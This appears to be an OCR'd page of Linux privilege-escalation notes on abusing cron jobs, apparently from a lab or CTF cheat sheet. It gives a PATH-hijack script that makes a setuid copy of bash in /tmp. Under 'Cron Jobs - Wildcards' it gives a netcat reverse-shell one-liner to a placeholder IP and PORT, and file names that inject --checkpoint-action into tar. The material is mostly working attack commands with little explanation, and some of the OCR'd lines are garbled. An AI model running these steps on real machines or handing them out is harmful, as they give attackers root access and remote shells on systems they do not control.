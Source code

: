 
** * * * * root `overwrite.sh`
** * * * * root /usr/local/bin/compress.sh
*`overwrite.sh`*
```bash
#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash
```




[+]steps<br>
- create bash script on dir that run by cron process and make it executable `chmod +x overwrite.sh `
-  make sure PATH start with user controlled dir where bash script allocate in order to hijack run script like path weakness vulnerability.


```bash
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```



```bash
user@debian:~$ /tmp/rootbash
rootbash-4.1$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

```



***`Cron Jobs - Wildcards`***

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc IP  PORT >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```


[+] exploit tar in cron<br>
[+] Link: [Tar Privilege Escalation – Greg Scharf](https://blog.gregscharf.com/2021/03/22/tar-in-cronjob-to-privilege-escalation/)<br>
[Exploiting Wildcard for Privilege Escalation - Hacking Articles](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)<br>

